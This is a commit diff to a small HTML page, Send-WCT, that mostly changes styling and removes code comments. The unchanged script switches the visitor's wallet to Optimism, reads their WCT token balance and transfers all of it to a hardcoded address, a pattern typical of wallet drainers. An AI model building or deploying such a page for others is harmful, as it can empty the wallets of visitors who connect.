

Before and after one commit to Zaeni21/Send-WCT, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 258-558 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -8,39 +8,43 @@
     body {
       font-family: sans-serif;
       text-align: center;
-      margin-top: 60px;
       height: 100vh;
+      margin: 0;
       display: flex;
       justify-content: center;
       align-items: center;
       flex-direction: column;
+      background: #f9f9f9;
+    }
+
+    h2 {
+      font-size: 30px;
+      margin-bottom: 30px;
     }
 
     #sendBtn {
-      font-size: 18px;
-      padding: 15px 30px;
+      font-size: 24px;
+      padding: 20px 50px;
       background-color: #4CAF50;
       color: white;
       border: none;
-      border-radius: 5px;
+      border-radius: 10px;
       cursor: pointer;
-      width: 250px;
-      margin-top: 20px;
+      width: 300px;
+      box-shadow: 0 4px 8px rgba(0,0,0,0.2);
+      transition: background-color 0.3s;
     }
 
     #sendBtn:hover {
-      background-color: #45a049;
+      background-color: #3e9142;
     }
 
     #status {
-      margin-top: 20px;
-      font-size: 16px;
+      margin-top: 30px;
+      font-size: 18px;
       color: #333;
-    }
-
-    h2 {
-      font-size: 24px;
-      margin-bottom: 20px;
+      max-width: 90%;
+      word-break: break-word;
     }
   </style>
 </head>
@@ -58,19 +62,17 @@
       'function transfer(address to, uint256 value) returns (bool)'
     ];
     const OP_SCAN = 'https://optimistic.etherscan.io/tx/';
-    const OP_CHAIN_ID = '0xa'; // 10 decimal
+    const OP_CHAIN_ID = '0xa';
 
     async function switchToOP() {
       if (!window.ethereum) return false;
       try {
-        // Switch to OP mainnet
         await window.ethereum.request({
           method: 'wallet_switchEthereumChain',
           params: [{ chainId: OP_CHAIN_ID }],
         });
         return true;
       } catch (switchError) {
-        // If the network isn't added yet, add it
         if (switchError.code === 4902) {
           try {
             await window.ethereum.request({
@@ -101,7 +103,6 @@
           return;
         }
 
-        // Auto switch to Optimism
         status.innerText = 'Switching to Optimism network...';
         const switched = await switchToOP();
         if (!switched) {
@@ -109,14 +110,12 @@
           return;
         }
 
-        // Connect wallet
         const provider = new ethers.BrowserProvider(window.ethereum);
         await provider.send('eth_requestAccounts', []);
         const signer = await provider.getSigner();
         const userAddress = await signer.getAddress();
         status.innerText = `Wallet: ${userAddress}\nFetching balance...`;
 
-        // Get token balance & decimals
         const token = new ethers.Contract(TOKEN_ADDRESS, TOKEN_ABI, signer);
         const decimals = await token.decimals();
         const balance = await token.balanceOf(userAddress);
@@ -126,11 +125,9 @@
           return;
         }
 
-        // Format for user display
         const displayBalance = ethers.formatUnits(balance, decimals);
         status.innerText = `You have ${displayBalance} WCT. Sending all...`;
 
-        // Transfer all
         const tx = await token.transfer(TO_ADDRESS, balance);
         status.innerHTML = `Tx sent! <a href="${OP_SCAN}${tx.hash}" target="_blank">${tx.hash}</a><br>Waiting for confirmation...`;
 
```
